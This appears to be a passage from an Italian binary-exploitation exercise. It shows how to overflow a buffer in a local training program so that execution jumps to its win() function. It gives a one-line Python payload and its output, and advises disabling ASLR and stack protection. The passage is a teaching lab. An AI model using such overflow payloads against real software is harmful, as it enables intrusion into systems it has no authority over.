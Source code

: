L'indirizzo è il seguente: `0x0804846b`.

In ambiente **little endian**, l’indirizzo `0x0804846b` va inserito come byte sequence `\x6b\x84\x04\x08`.

## Creazione del Payload

Costruiamo una stringa che:
1. Contiene 10 byte di padding (ad esempio `"A"*10`).
2. Subito dopo, i 4 byte dell’indirizzo di `win()` in ordine little endian.

Esempio:

```bash
python -c 'import sys; sys.stdout.buffer.write(b"A"*10 + b"\x6b\x84\x04\x08")' | ./esercizio3
```

### Output

```
Chiamo l'indirizzo della funzione, salto a 0x0804846b
Hai modificato correttamente il flusso di esecuzione
```

> **Nota**: Usare `sys.stdout.buffer.write` evita di aggiungere il `\n` finale e di incorrere in problematiche di codifica. Inoltre, è opportuno disabilitare ASLR e compilare con `-fno-stack-protector -no-pie` per avere indirizzi e offset stabili.
